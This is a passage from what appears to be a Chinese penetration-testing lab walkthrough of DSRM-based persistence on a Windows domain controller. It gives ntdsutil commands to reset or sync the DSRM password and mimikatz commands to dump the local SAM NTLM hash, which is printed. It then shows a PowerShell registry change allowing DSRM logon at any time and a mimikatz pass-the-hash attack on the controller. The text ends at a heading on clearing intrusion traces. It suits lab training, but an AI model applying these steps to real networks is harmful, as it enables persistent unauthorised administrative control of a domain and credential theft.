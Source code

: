 首先，我们为 DSRM 账号设置新密码。在域控制器（Windows 2008）的 cmd 中进入 ntdsutil，然后输入下面命令进行修改 DSRM 账户的密码：

```
ntdsutil    // 进入ntdsutilset dsrm password    // 设置DSRM账户的密码reset password on server null    // 在当前域控制器上恢复DSRM密码<password>    // 输入新密码<password>    // 重新输入新密码q    //退出DSRM密码设置模式q    // 退出ntdsutil
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8hHMHTXiaUzKoQn1wODDSvlCibvOVTLlrlJgetlFXLe2dicYpLZU0Wia86NsY7EfZliaSVZ7JPS6pwS6w/640?wx_fmt=png)

接着，我们使用 kiwi 模块执行 mimikatz 命令来读取域控本地 SAM 文件中的本地管理员的 NTLM Hash，确认域控制器上 DSRM 账户的密码是否修改成功：

```
load kiwikiwi_cmd privilege::debugkiwi_cmd token::elevatekiwi_cmd lsadump::sam
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8hHMHTXiaUzKoQn1wODDSvl4OQKoK6smrxOZjOD869UD3Cx35Lnp1LwRM1n90MOgeL53wtadgDpKQ/640?wx_fmt=png)image-20210218223211939

如上图所示，本地管理员 administrator 的 NTLM Hash 为：e8bea972b3549868cecd667a64a6ac46。

然后，我们修改域控主机的 DSRM 账户登录方式。在 Windows Server 2000 以后的版本操作系统中，对 DSRM 使用控制台登录域控制器进行了限制。我们可以在注册表的 HKLM:\System\CurrentControlSet\Control\Lsa \ 中新建 DsrmAdminLogonBehavior 项进行设置，将该新建的项中的值设为 0、1、2 可以分别设置不同的 DSRM 账户登录方式：

•0：默认值，只有当域控制器重启并进入 DSRM 模式时，才可以使用 DSRM 管理员账号 •1：只有当本地 AD、DS 服务停止时，才可以使用 DSRM 管理员账号登录域控制器 •2：在任何情况下，都可以使用 DSRM 管理员账号登录域控制器

如下所示，我们用 powershell 命令将 DSRM 的登录方式设置为 “2”，即在任何情况下，都可以使用 DSRM 管理员账号登录域控制器：

```
New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -name "DsrmAdminLogonBehavior" -value 2 -propertyType DWORD
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8hHMHTXiaUzKoQn1wODDSvl3HfX8iaQMXsoQEB0cYUv55umKpKTUCiahjlK6sbpgLqMfzc3pD16gvKg/640?wx_fmt=png)image-20210218223826094

最后，我们即可以在域成员主机 Windows7 上通过 mimikatz，使用域控制器的本地 Administrator 账号哈希传递攻击域控了：

```
privilege::debugsekurlsa::pth /domain:DC /user:Administrator /ntlm:e8bea972b3549868cecd667a64a6ac46
```

**注意，在这里，/domain 选项不是添域名，而是域控制器的机器名（DC），一定要注意。**

除了向上面那样直接修改 DSRM 账户的密码外，我们还可以为 DSRM 同步为一个普通域用户的密码。但是要注意，本次靶场的域控制器的系统版本为 Windows Server 2008，所以需要安装 KB961320 补丁才可以使用指定域账号的密码对 DSRM 的密码进行同步。在 Windows Server 2008 以后版本的系统中不需要安装此补丁。

同步的方式如下：

```
ntdsutil // 进入ntdsutil set dsrm password // 设置DSRM账户的密码sync from domain account domainusername  // 使DSRM的密码和指定的domainusername域用户的密码同步q //退出DSRM密码设置模式    q // 退出ntdsutil
```

之后的操作就和上面所演示的一样了，同样还是读取本地 SAM 文件中的本地管理员的 NTLM Hash，确认域控制器上 DSRM 账户的密码是否修改成功，然后同样还是修改目标主机 DC 的 DSRM 账户登录方式，最后同样还是在域成员主机 Windows7 上通过 mimikatz，使用域控制器的本地 Administrator 账号哈希传递攻击域控。

详情请看：https://www.freebuf.com/articles/web/252963.html

入侵痕迹清理
------

